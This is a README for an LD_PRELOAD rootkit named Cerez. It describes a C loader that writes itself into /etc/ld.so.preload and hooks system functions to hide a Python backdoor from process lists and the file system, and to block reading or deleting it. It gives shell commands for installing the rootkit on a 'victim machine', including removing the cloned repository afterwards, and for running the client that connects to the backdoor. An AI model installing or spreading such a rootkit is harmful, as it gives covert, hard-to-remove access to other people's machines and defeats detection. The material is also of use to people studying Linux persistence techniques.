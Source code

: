 <h1 align="center">
  <img src="assets/banner.png"/>  
  <br>
  Cerez 😈 A simple LD_PRELOAD rootkit
</h1>

Cerez is a LD_PRELOAD rootkit, it consists of two parts, a backdoor 
(written in python) and a loader (written in c). Loader is a SO binary
that gets installed into `/lib` and writes its path into `/etc/ld.so.preload`,
this way every binary on the system preloads it.
By overwriting system functions like `fopen`, `readdir`, `access` and
`unlinkat` it makes it nearly impossible to remove/detect the backdoor.
I also wrote a simple client that you can use to connect the backdoor.

## Features
- ✔ Hidden in the process list
- ✔ Hidden in the file system
- ✔ Unreadable
- ✔ Undeleteable
- ✔ Unwriteable
- ❌ Hidden in the network list (WIP)

## Installing the rootkit
To install the rootkit on a victim machine:
```
git clone https://github.com/ngn13/cerez.git
cd cerez
chmod +x install.sh
# before installing see the backdoor.py
# and change the backdoor password
./install.sh
cd ..
rm -rf cerez
```

## Installing the client
To install the client that you can use to connect a
backdoored machine:
```
git clone https://github.com/ngn13/cerez.git
cd cerez
chmod +x client.py
./client.py
```

## Resources
To learn more about LD_PRELOAD rootkits, I highly recommend you read [this
article](https://compilepeace.medium.com/memory-malware-part-0x2-writing-userland-rootkits-via-ld-preload-30121c8343d5).
I also left some comments in the [loader.c](loader.c) so you can go ahead and read it.
You can also create an issue/PR if you are interested.
